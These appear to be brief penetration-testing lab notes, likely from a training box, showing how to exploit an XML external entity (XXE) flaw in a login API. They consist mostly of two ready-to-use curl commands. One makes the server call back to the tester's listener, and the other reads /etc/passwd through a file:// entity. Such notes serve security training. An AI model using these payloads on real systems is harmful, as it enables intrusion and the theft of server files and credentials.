 ```Shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```
#### Look at netcat connection being made to API. This will indicate an XXE injection vulnerability
#### To read internal files
```Shell
curl -X POST http://10.129.202.133:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "file:////etc/passwd"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```